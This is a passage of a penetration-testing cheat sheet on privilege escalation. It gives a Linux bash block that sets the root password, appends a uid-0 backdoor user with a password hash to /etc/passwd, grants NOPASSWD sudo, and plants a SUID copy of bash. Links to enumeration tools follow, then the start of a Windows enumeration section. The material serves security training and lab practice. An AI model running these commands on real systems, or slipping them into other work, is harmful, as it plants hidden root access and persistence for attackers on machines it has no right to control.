 ```bash
# Set root password
echo 'root:password' | chpasswd

# Add new root user to /etc/passwd
echo "exploit:YZE7YPhZJyUks:0:0:root:/root:/bin/bash" >> /etc/passwd
su exploit

# Edit /etc/passwd to change user GID to 0 (root)
nano /etc/passwd

# Add NOPASSWD to /etc/sudoers
nano /etc/sudoers
# user ALL=(ALL) NOPASSWD:ALL

# Copy bash, set SUID bit
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
/tmp/rootbash -p
```

#### Tools & Resources

* **Tools**
  * [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) (HTB Nibbles)
  * [SUIDENUM](https://github.com/Anon-Exploiter/SUID3NUM)
  * [LinEnum.sh](https://github.com/rebootuser/LinEnum)
  * [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  * [Linprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
  * [pspy](https://github.com/DominicBreuker/pspy) (for crontabs)
* **Resources**
  * [https://sushant747.gitbooks.io/total-oscp-guide/privilege\_escalation\_-\_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
  * [https://github.com/Ignitetechnologies/Privilege-Escalation](https://github.com/Ignitetechnologies/Privilege-Escalation)
  * [https://gtfobins.github.io/](https://gtfobins.github.io/)
  * [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

***

### Windows Privilege Escalation

#### Enumeration

**OS Info Enumeration**

```cmd
systeminfo
hostname
echo %username%
wmic qfe -> check patches
wmic logicaldisk -> get other disk information
```
